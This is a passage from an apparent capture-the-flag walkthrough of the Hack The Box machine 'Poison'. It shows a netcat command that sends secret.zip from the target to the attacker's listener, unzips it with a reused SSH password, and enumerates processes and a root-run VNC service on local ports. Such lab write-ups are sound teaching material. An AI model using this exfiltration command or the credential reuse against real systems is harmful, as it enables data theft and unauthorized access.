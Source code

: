 Let's exfil this with netcat over to our attacking machine.

```
charix@Poison:~ % nc -w 2 10.10.14.8 443 < secret.zip
```

```
root@kali:~/htb/poison# nc -lvnp 443 > secret.zip
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.84] 13787
```

The zip is password protected but we can use the same password as charix's ssh password to successfully unzip.

```
root@kali:~/htb/poison# unzip secret.zip
Archive:  secret.zip
[secret.zip] secret password:
 extracting: secret
```

Checking out the file we can see that it's supposedly a regular ASCII file. 


```
root@kali:~/htb/poison# file secret
secret: Non-ISO extended-ASCII text, with no line terminators
root@kali:~/htb/poison# cat secret
[|Ֆz!
```

However there's just garbage in the file contents itself. 

Let's enum the box some more.


After checking running processes with `ps aux` we see the following entry.

```
root    529   0.0  0.9  23620  8996 v0- I    19:17     0:00.22 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geo
root    540   0.0  0.7  67220  7060 v0- I    19:17     0:00.07 xterm -geometry 80x24+10+10 -ls -title X Desktop
```

And we also see some ports listening locally.

```
charix@Poison:~ % netstat -an
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0      0 10.10.10.84.22         10.10.14.8.44976       ESTABLISHED
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
udp4       0      0 *.514                  *.*                    
udp6       0      0 *.514                  *.* 
```

